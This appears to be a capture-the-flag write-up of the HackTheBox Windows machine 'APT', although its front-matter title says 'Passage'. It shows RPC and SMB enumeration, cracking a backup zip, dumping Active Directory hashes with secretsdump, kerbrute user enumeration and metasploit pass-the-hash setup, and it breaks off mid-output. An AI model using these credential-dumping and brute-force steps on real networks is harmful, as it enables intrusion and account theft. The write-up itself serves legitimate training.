




# HackTheBox Writeup: APT

---
title: "HackTheBox: Passage"
excerpt: "In this machine, you start off with an nmap scan and notice that only 2 ports are open, 80 and 135, after some research you will find an exploit called IOXDResolver which you can use to enumerate interfaces / IPv6 address of the machine, and you nmap scan it which reveals a bunch more ports which you can potentially exploit to get a shell on the machine. You enumerate SMB and find a backup share with the SAM database in it, dump it to get users hashes, verify which users on the system exists, and pass the hash until you find a valid hash for a particular user, from then you get a shell as henry.vinson_adm by reading the registry hive which will reveal credentials to their corporate software and you'll notice a hint which mentions something related to the encryption used in the system which has been purposely weakened for some system administration related task (I assume), but since it's setup like that can make it vulnerable and you'll be able to steal the Domain controller hash by abusing Windows defender and listening for hashes with Responder.py and cracking the  Net-NTLMv1 hash with crack.sh which makes you able to dump the entire SAM database on the system and get Administrator hash which you can use to get an Administrator shell."
---


 


APT was a insane windows machine on HackTheBox, rooting it would aquire you 50-points and also a ton of new knowledge about AD and Windows! This was also coincidentally my first insane machine, and I have to say, for a first choice, this did definitely did not disappoint. For everyones' reference, I've placed the ip of the machine which is 10.10.10.213 into my /etc/hosts and binded it to the domain apt.htb.


#### Table of contents
1. Reconnaissance / Enumeration
2. User
3. Privilege Escalation
4. Root!

## Summary

In this machine, you start off with an nmap scan and notice that only 2 ports are open, 80 and 135, after some research you will find an exploit called IOXDResolver which you can use to enumerate interfaces / IPv6 address of the machine, and you nmap scan it which reveals a bunch more ports which you can potentially exploit to get a shell on the machine. You enumerate SMB and find a backup share with the SAM database in it, dump it to get users hashes, verify which users on the system exists, and pass the hash until you find a valid hash for a particular user, from then you get a shell as henry.vinson_adm by reading the registry hive which will reveal credentials to their corporate software and you'll notice a hint which mentions something related to the encryption used in the system which has been purposely weakened for some system administration related task (I assume), but since it's setup like that can make it vulnerable and you'll be able to steal the Domain controller hash by abusing Windows defender and listening for hashes with Responder.py and cracking the  Net-NTLMv1 hash with crack.sh which makes you able to dump the entire SAM database on the system and get Administrator hash which you can use to get an Administrator shell.
	
	
### Reconnaissance


Unsurprisingly, I always start my nmap scans off with a Nmap port scan, I always make sure to do a full range port scan with `-p-` and then scan those ports to enumerate further using Nmap's NSE scripts. This was also what initially threw me off, as the box only had ports 80 (HTTP) and 135 (msrpc) open, nonetheless I scanned them and enumerated them further.

```sh
utopia@utopia: APT » sudo nmap -p80,135 -sS -sC -sV  10.10.10.213                                        130 [02:03:28]
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-29 02:03 CEST
Nmap scan report for 10.10.10.213
Host is up (0.043s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Gigantic Hosting | Home
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.31 seconds
```

Okay, cool, we have more information about the system, we know that we can't directly exploit IIS as it's IIS 10.0 and there hasn't been many recent exploits for it, and with msrpc it's a very complicated answer, which we'll see why in a second. We move on to enumerating HTTP further.

### HTTP:80

Visiting the webpage just reveals a static looking site which also exposes a domain name which we'll also put into your /etc/hosts in case of any vhosts, this also did not bring any different results but nonetheless can come in handy later.


Loading up Burp and making it crawl for web pages did also not yield any interesting results, and from the source code of the page it looks like a static template provided by W3layouts.

```html
<!--
Author: W3layouts
Author URL: http://w3layouts.com
License: Creative Commons Attribution 3.0 Unported
License URL: http://creativecommons.org/licenses/by/3.0/
-->
```

I then moved onto more intrusive enumeration, mainly directory brute, and since I know this is an IIS webserver and that IIS supports/has good integration with asp/aspx I'll make sure to have enabled in my scan with `-x`.

```sh
utopia@utopia: APT » /opt/gobuster dir -u http://apt.htb -w /opt/SecLists/Discovery/Web-Content/common.txt -x asp,aspx,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://apt.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              asp,aspx,html
[+] Timeout:                 10s
===============================================================
2021/03/29 02:15:24 Starting gobuster in directory enumeration mode
===============================================================
/About.html           (Status: 200) [Size: 9386]
/Images               (Status: 301) [Size: 145] [--> http://apt.htb/Images/]
/Index.html           (Status: 200) [Size: 14879]                           
/News.html            (Status: 200) [Size: 5528]                            
/Services.html        (Status: 200) [Size: 10592]                           
/Support.html         (Status: 200) [Size: 6326]                            
/about.html           (Status: 200) [Size: 9386]                            
/clients.html         (Status: 200) [Size: 12146]                           
/css                  (Status: 301) [Size: 142] [--> http://apt.htb/css/]   
/fonts                (Status: 301) [Size: 144] [--> http://apt.htb/fonts/] 
/images               (Status: 301) [Size: 145] [--> http://apt.htb/images/]
/index.html           (Status: 200) [Size: 14879]                           
/index.html           (Status: 200) [Size: 14879]                           
/js                   (Status: 301) [Size: 141] [--> http://apt.htb/js/]    
/news.html            (Status: 200) [Size: 5528]                            
/services.html        (Status: 200) [Size: 10592]                           
/support.html         (Status: 200) [Size: 6326]                            
                                                                            
===============================================================
2021/03/29 02:17:47 Finished
===============================================================
```

Visiting those pages reveal nothing interestings and aren't very exploitable as they're html pages, scanning for vhosts also does not return anything interesting, so we can assume HTTP is out-of-scope.


### MSRPC:135

And this is the last port, we can be fixated that we need to enumerate msrpc, but before that, to exploit or enumerate msprc, we need to understad: what is msrpc? RPC?

> [The MSRPC process begins on the client side](, with the client application calling a local stub procedure instead of code implementing the procedure. The client stub code retrieves the required parameters from the client address space and delivers them to the client runtime library, which then translates the parameters into a standard Network Data Representation format to transmit to the server.
   The client stub then calls functions in the RPC client runtime library to send the request and parameters to the server. If the server is located remotely, the runtime library specifies an appropriate transport protocol and engine and passes the RPC to the network stack for transport to the server.
 
 [Source](https://www.extrahop.com/resources/protocols/msrpc/)
 
This is a very advanced definition, and in simple terms RPC is pretty much just a client-server protocol which allows you to interact or request services from another computer without having to know any details or anything of the computer's network, it lets computers in a domain talk to each other, and msrpc is just based of DCE-RCP

There are many ways to enumerate msrpc, but I think the most reliable way is to enumerate RPC is to use the inbuilt metasploit auxiliary modules. [Hacktricks](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc) shows us very useful list of modules we can use.

```
msf6 > use auxiliary/scanner/dcerpc/endpoint_mapper
msf6 auxiliary(scanner/dcerpc/endpoint_mapper) > show options

Module options (auxiliary/scanner/dcerpc/endpoint_mapper):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR
identifier, or hosts file with syntax 'file:<pa
                                       th>'
   RPORT    135              yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max
one per host)

msf6 auxiliary(scanner/dcerpc/endpoint_mapper) > set RHOSTS apt.htb
RHOSTS => apt.htb
msf6 auxiliary(scanner/dcerpc/endpoint_mapper) > exploit

[*] 10.10.10.213:135      - Connecting to the endpoint mapper service...
[*] 10.10.10.213:135      - 76f226c3-ec14-4325-8a99-6a46348418af v1.0 LRPC
(WindowsShutdown)
[*] 10.10.10.213:135      - 0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 TCP
(49667) 10.10.10.213 [RemoteAccessCheck]
[*] 10.10.10.213:135      - 0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 LRPC
(OLEAD8FAC1CD8655638C02805E3576A) [RemoteAccessCheck]
[*] 10.10.10.213:135      - 0b1c2170-
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(lsacap)
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(LSA_EAS_ENDPOINT)
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(lsapolicylookup)
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(lsasspirpc)
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(protected_storage)
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(SidKey Local End Point)
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(samss lpc)
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 TCP
(49667) 10.10.10.213
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(OLEAD8FAC1CD8655638C02805E3576A)
[*] 10.10.10.213:135      - 12345678-1234-abcd-ef00-01234567cffb v1.0 LRPC
(NTDS_LPC)
...snip...
[*] apt.htb:135           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This reveals a lot of interesting services but nothing that would seem useful, luckily, the hacktricks page also included a link to an article by Mubix which showed us how we can abuse **ServerAlive2** method in the _**IOXIDResolver**_ interface.  Which we can try to abuse and enumerate interfaces on this Domain Controller.

I git cloned the repository and started scanning for interfaces on the domain controller which revealed an IPv6 address.

```sh
utopia@utopia: APT » git clone https://github.com/mubix/IOXIDResolver.git                                    [03:03:22]
Cloning into 'IOXIDResolver'...
remote: Enumerating objects: 26, done.
remote: Counting objects: 100% (26/26), done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 26 (delta 9), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (26/26), 7.35 KiB | 941.00 KiB/s, done.
utopia@utopia: APT » cd IOXIDResolver/                                                                       [03:03:30]
utopia@utopia: IOXIDResolver [master] » python3 IOXIDResolver.py -t apt.htb                                  [03:03:37]
[*] Retrieving network interface of apt.htb
Address: apt
Address: 10.10.10.213
Address: dead:beef::b885:d62a:d679:573f
Address: dead:beef::ed8c:68db:5277:1fd2
```

Scanning the IPv6 Address `dead:beef::b885:d62a:d679:573f` reveals plenty of more ports than the IPv4 on.

```sh
utopia@utopia: APT » nmap -p- -6 dead:beef::b885:d62a:d679:573f                                          130 [03:09:44]
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-29 03:09 CEST
Nmap scan report for dead:beef::b885:d62a:d679:573f
Host is up (0.043s latency).
Not shown: 65514 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49673/tcp open  unknown
49681/tcp open  unknown
49688/tcp open  unknown
```

Yeah, now this is looking more like an AD domain controller, we can ingore the very high number of ports as they are irrelevant. 

Now that we've gathered all the ports running on the system it's best to run another scan with the specified ports, in additon we'll add `-sV` and `-sC` to get more information we otherwise would not get.

```sh
utopia@utopia: APT » nmap -p 53,80,88,135,389,445,464,593,636,5985,9389 -6 dead:beef::b885:d62a:d679:573f -sV -s[22/75]
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-29 03:40 CEST             
Nmap scan report for dead:beef::b885:d62a:d679:573f
Host is up (0.055s latency).                               
                             
PORT     STATE SERVICE      VERSION
53/tcp   open  domain? 
| fingerprint-strings:                                     
|   DNSVersionBindReqTCP: 
|     version            
|_    bind                                                 
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-server-header:                                      
|   Microsoft-HTTPAPI/2.0
|_  Microsoft-IIS/10.0
|_http-title: Bad Request                                  
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-03-29 01:40:23Z)
135/tcp  open  msrpc        Microsoft Windows RPC
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local                                                                          
| Not valid before: 2020-09-24T07:07:18                                                                                
|_Not valid after:  2050-09-24T07:17:18                                                                                
|_ssl-date: 2021-03-29T01:43:00+00:00; -1s from scanner time.                                                          
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap     Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after:  2050-09-24T07:17:18
|_ssl-date: 2021-03-29T01:43:00+00:00; -1s from scanner time.
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
9389/tcp open  mc-nmf       .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint
 at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/29%Time=6061300C%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -11m59s, deviation: 26m47s, median: -1s 
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: apt
|   NetBIOS computer name: APT\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: apt.htb.local
|_  System time: 2021-03-29T02:42:49+01:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required 
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-03-29T01:42:46 
|_  start_date: 2021-03-28T23:57:09

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.53 seconds
```

We see very useful information, in particular the domain name.

```sh
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local                                                                          
| Not valid before: 2020-09-24T07:07:18                                                                                
|_Not valid after:  2050-09-24T07:17:18                                                                                
|_ssl-date: 2021-03-29T01:43:00+00:00; -1s from scanner time.                               
```

We also see kerberos is open on port 88, which means we can enumerate users and do some password spraying with [kerbrute](https://github.com/ropnop/kerbrute), we also see SMB is open which is also very useful, we can also query AD if we get any authenticated credentials because a null bind is not possible by default. We map the IPv6 address to the domains `apt.htb.local` and `htb.local` into your `/etc/hosts`

### SMB:445 (IPv6)

Now that we have SMB listening for connections on this IPv6 address, we can use smbclient to list for open shares we can access.

```sh
utopia@utopia: APT » smbclient -L dead:beef::b885:d62a:d679:573f                                         130 [04:41:38]
Enter WORKGROUP\utopia's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        backup          Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
dead:beef::b885:d62a:d679:573f is an IPv6 address -- no workgroup available
```

What immediately sticks out is that 'backup' share.

```sh
utopia@utopia: APT » smbclient \\\\dead:beef::b885:d62a:d679:573f\\backup                                  1 [04:42:37]
Enter WORKGROUP\utopia's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 24 09:30:52 2020
  ..                                  D        0  Thu Sep 24 09:30:52 2020
  backup.zip                          A 10650961  Thu Sep 24 09:30:32 2020

                10357247 blocks of size 4096. 6965953 blocks available
smb: \> get backup.zip
getting file \backup.zip of size 10650961 as backup.zip (1119,4 KiloBytes/sec) (average 1119,4 KiloBytes/sec)
smb: \> exit
```

Trying to unzip the file reveals that it's actually password-protected, we can easily brute force this with zip2john and john.

```sh
utopia@utopia: smb » unzip backup.zip                                                                        [05:06:26]
Archive:  backup.zip
[backup.zip] Active Directory/ntds.dit password: 
   skipping: Active Directory/ntds.dit  incorrect password
   skipping: Active Directory/ntds.jfm  incorrect password
   skipping: registry/SECURITY       incorrect password
   skipping: registry/SYSTEM         incorrect password
utopia@utopia: smb » zip2john backup.zip > hash.txt                                                        1 [05:06:30]
backup.zip/Active Directory/ is not encrypted!
ver 2.0 backup.zip/Active Directory/ is not encrypted, or stored with non-handled compression type
ver 2.0 backup.zip/Active Directory/ntds.dit PKZIP Encr: cmplen=8483543, decmplen=50331648, crc=ACD0B2FB
ver 2.0 backup.zip/Active Directory/ntds.jfm PKZIP Encr: cmplen=342, decmplen=16384, crc=2A393785
ver 2.0 backup.zip/registry/ is not encrypted, or stored with non-handled compression type
ver 2.0 backup.zip/registry/SECURITY PKZIP Encr: cmplen=8522, decmplen=262144, crc=9BEBC2C3
ver 2.0 backup.zip/registry/SYSTEM PKZIP Encr: cmplen=2157644, decmplen=12582912, crc=65D9BFCD
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
utopia@utopia: smb » john --wordlist=/opt/rockyou.txt hash.txt                                               [05:05:45]
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)
1g 0:00:00:00 DONE (2021-03-29 05:05) 33.33g/s 546133p/s 546133c/s 546133C/s 123456..christal
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Unzipping this reveals a SECURITY and SYSTEM registry hive, and also the ntds.dit file which contains all data about active directory, including password hashes to all user objects in the AD.  We can dump them using `impacket-secretsdump`

```sh
utopia@utopia: smb » secretsdump.py -system SYSTEM -security SECURITY LOCAL -ntds ntds.dit               130 [05:50:30]

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x936ce5da88593206567f650411e1d16b
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:34005b00250066006f0027007a004700600026004200680052003300630050005b002900550032004e00560053005c004c00450059004f002f0026005e0029003c00390078006a0036002500230039005c005c003f0075004a0034005900500062006000440052004b00220020004900450053003200660058004b00220066002c005800280051006c002a0066006700300052006600520071003d0021002c004200650041005600460074005e0045005600520052002d004c0029005600610054006a0076002f005100470039003d006f003b004700400067003e005600610062002d00550059006300200059006400
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb
[*] DefaultPassword 
(Unknown User):Password123!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3e0d78cb8f3ed66196584c44b5701501789fc102
dpapi_userkey:0xdcde3fc585c430a72221a48691fb202218248d46
[*] NL$KM 
 0000   73 4F 34 1D 09 C8 F9 32  23 B9 25 0B DF E2 DC 58   sO4....2#.%....X
 0010   44 41 F2 E0 C0 93 CF AD  2F 2E EB 13 81 77 4B 42   DA....../....wKB
 0020   C2 E0 6D DE 90 79 44 42  F4 C2 AD 4D 7E 3C 6F B2   ..m..yDB...M~<o.
 0030   39 CE 99 95 66 8E AF 7F  1C E0 F6 41 3A 25 DA A8   9...f......A:%..
NL$KM:734f341d09c8f93223b9250bdfe2dc584441f2e0c093cfad2f2eeb1381774b42c2e06dde90794442f4c2ad4d7e3c6fb239ce9995668eaf7f1ce0f6413a25daa8
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 1733ad403c773dde94dddffa2292ffe9
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
APT$:1000:aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:72791983d95870c0d6dd999e4389b211:::
jeb.sloan:3200:aad3b435b51404eeaad3b435b51404ee:9ea25adafeec63e38cef4259d3b15c30:::
ranson.mejia:3201:aad3b435b51404eeaad3b435b51404ee:3ae49ec5e6fed82ceea0dc2be77750ab:::
unice.daugherty:3202:aad3b435b51404eeaad3b435b51404ee:531c98e26cfa3caee2174af495031187:::
kazuo.deleon:3203:aad3b435b51404eeaad3b435b51404ee:fde29e6cb61b4f7fda1ad5cd2759329d:::
dacy.frederick:3204:aad3b435b51404eeaad3b435b51404ee:51d368765462e9c5aebc456946d8dc86:::
emeline.boone:3205:aad3b435b51404eeaad3b435b51404ee:273c48fb014f8e5bf9e2918e3bf7bfbd:::
baris.martin:3206:aad3b435b51404eeaad3b435b51404ee:98590500f99a1bee7559e97ad342d995:::
mea.cash:3207:aad3b435b51404eeaad3b435b51404ee:10cf01167854082e180cf549f63c0285:::
elie.petersen:3208:aad3b435b51404eeaad3b435b51404ee:813f9d0988b9242eec1e45907344b591:::
gaylene.stephenson:3209:aad3b435b51404eeaad3b435b51404ee:6149000a4f3f7c57642cbee1ea70c3e1:::
..................................
..................................
..................................
snip
..................................
..................................
..................................
cuong.pierce:aes128-cts-hmac-sha1-96:21eb4412433f263f245de81e57fbeac8
cuong.pierce:des-cbc-md5:83e9a470f7c84a46
prue.olson:aes256-cts-hmac-sha1-96:cd0d76863148d8ad87c40bd1903a6af2295db46ce3e9494d1f8b95de99b91a64
prue.olson:aes128-cts-hmac-sha1-96:d817cf2341be47674e6d0dccab1237b0
prue.olson:des-cbc-md5:2c5dba54314c20ba
[*] ClearText password from ntds.dit 
APT$:CLEARTEXT:4[%fo'zG`&BhR3cP[)U2NVS\LEYO/&^)<9xj6%#9\\?uJ4YPb`DRK" IES2fXK"f,X(Ql*fg0RfRq=!,BeAVFt^EVRR-L)VaTjv/QG9=o;G@g>Vab-UYc Yd
[*] Cleaning up... 
```

Those are a lot of users and user hashes, and we're not even sure if those are valid users to begin with, to verify all existing users on the AD we can use some bash tricks cut out everything other than usernames and then use kerbrute to verify existing users.

```sh
utopia@utopia: smb » cat adhashes.txt | cut -d ":" -f 1 |sort -u > adusers.txt # Redirect stdout to a file which contains all the users
utopia@utopia: smb » /opt/kerbrute userenum -d htb.local adusers.txt --dc apt.htb.local -t 100           130 [06:20:02]

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/29/21 - Ronnie Flathers @ropnop

2021/03/29 06:20:03 >  Using KDC(s):
2021/03/29 06:20:03 >   apt.htb.local:88

2021/03/29 06:20:08 >  [+] VALID USERNAME:       Administrator@htb.local
2021/03/29 06:20:13 >  [+] VALID USERNAME:       APT$@htb.local
2021/03/29 06:20:49 >  [+] VALID USERNAME:       henry.vinson@htb.local
2021/03/29 06:21:50 >  Done! Tested 2001 usernames (3 valid) in 106.756 seconds

```

Now that we've enumerated the existing users on the system, we can fixate our attack vectors on them. This was also the stage where I really struggled as I didn't really know what to do, I was sure it had something to do with pass-the-hash but I wasn't really sure, and also fail2ban / rate limiting was enabled on the system and after you reach a certain amount of authentication fails, you get blocked from the system for about 5 minutes or so. But, turns out the way to go is pass the hash, but to actually know which hash is the valid one, you need to brute force SMB using the list of hashes you've gathered while also doing that all your SMB authentication attempts with the hashes happens every 5 minutes consecutively. This took me about 5 days or so if I'm being honest, this process took a lot of waiting and patience, and luckily I had other CTFs and school to occupy my mind while I was waiting for this. There are many ways to do this, but I've found the most stable one is using a metasploit module, you can also try using CME but the latest version is very bad with dealing with IPv6 addresses. 

```
utopia@utopia: opt » msfconsole                                                                              [[58/9915]
[-] No local database connected, meaning some Metasploit features will not be available. A full list of the affected fe
atures & database setup instructions can be found here: https://github.com/rapid7/metasploit-framework/wiki/msfdb:-Data
base-Features-&-How-to-Set-up-a-Database-for-Metasploit                                                                
[!] The following modules could not be loaded!..\                                                                      
[!]     /opt/metasploit-framework/modules/auxiliary/gather/office365userenum.py                                        
[!] Please see /home/utopia/.msf4/logs/framework.log for details.                                                      
                                                                                                                       
                                                                                                                       
      .:okOOOkdc'           'cdkOOOko:.                                                                                
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.                                                                              
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:                                                                             
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'                                                                            
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo                                                                            
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx                                                                            
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl                                                                            
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.                                                                            
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc                                                                             
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo                                                                              
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl                                                                               
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;                                                                                
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.                                                                                 
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,                                                                                   
           :kk;.OOOOOOOOOOOOO.;Ok:                                                                                     
             ;kOOOOOOOOOOOOOOOk:                                                                                       
               ,xOOOOOOOOOOOx,                                                                                         
                 .lOOOOOOOl.                                                                                           
                    ,dOd,                                                                                              
                      .                                                                                                
                                                                                                                       
       =[ metasploit v6.0.38-dev-73d51f0ff6               ]                                                            
+ -- --=[ 2112 exploits - 1136 auxiliary - 357 post       ]                                                          
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ] 
+ -- --=[ 8 evasion                                       ]                                    
                                                                                                                       
Metasploit tip: When in a module, use back to go                                                                       
back to the top level prompt
                                                                                                                       
msf6 > search smb_login
                                                                                                                       
Matching Modules       
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smb/smb_login

msf6 > use 0
msf6 auxiliary(scanner/smb/smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
